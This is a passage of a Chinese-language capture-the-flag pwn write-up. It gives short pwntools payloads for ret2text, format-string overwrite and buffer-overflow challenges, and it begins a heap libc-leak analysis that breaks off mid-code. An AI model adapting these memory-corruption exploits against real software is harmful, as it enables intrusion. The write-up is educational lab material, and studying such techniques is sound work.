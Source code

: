 而 `guestbook2` 仅仅是提示语不同，其余没有任何区别。`level6` 是 32 位的版本。

### tell_me_something

64 位下的 ret2text，后门函数为 `good_game` 函数。

```python
payload = flat('a'*0x88,elf.sym['good_game'])
sla(':\n',payload)
```

### fm

存在格式化字符串漏洞，我们需要修改 `x` 的值为 4 来 getshell。测得输入偏移为 11。而 `p32(x 的地址)` 长度 4 字节，恰好能将 4 写入 `x` 的地址。

```python
x = 0x804a02c
sl(p32(x)+'%11$n')
```

### test_your_memory

本题看似复杂，实际上由于给了一个提示 `hint`，指向 `cat flag` 字符串，又存在后门函数 `win_func` 执行 `system(command)`，那么我们只需要把 `cat flag` 字符串传给 `win_func` 即可。

```python
cat_flag = 0x80487e0
payload = flat('a'*(0x13+4),elf.sym['win_func'],elf.sym['main'],cat_flag)
sl(payload)
```

### itemboard

结构体：

```c
struct ItemStruct
{
    char *name;
    char *description;
    void (*free)(ItemStruct *);
}
```

在创建新 item 时，首先会创建 `0x20` 的 `Item Struct*`，包含了 `name,description,free` 三个指针；随后创建 `0x30` 的空间存放 `name`；最后根据用户输入创建对应大小的空间存放 `description`。

那么我们可以先创建一个 `0x80` 的 chunk 然后释放，它会进入 unsorted bin 中，此时其 `fd` 指向 `main_arena+88`，通过 `show` 即可泄露 libc。注意这里的 `show` 函数：

```c
void __cdecl show_item()
{
  Item *item; // ST00_8
  Item *v1; // ST00_8
  int index; // [rsp+Ch] [rbp-4h]

  puts("Which item?");
  fflush(stdout);
  index = read_num();
  if (index < items_cnt && item_array[index] )
  {
    item = item_array[(unsigned __int8)index];
    puts("Item Detail:");
    printf("Name:%s\n", item->name, item);
    printf("Description:%s\n", v1->description);
    fflush(stdout);
  }
  else
```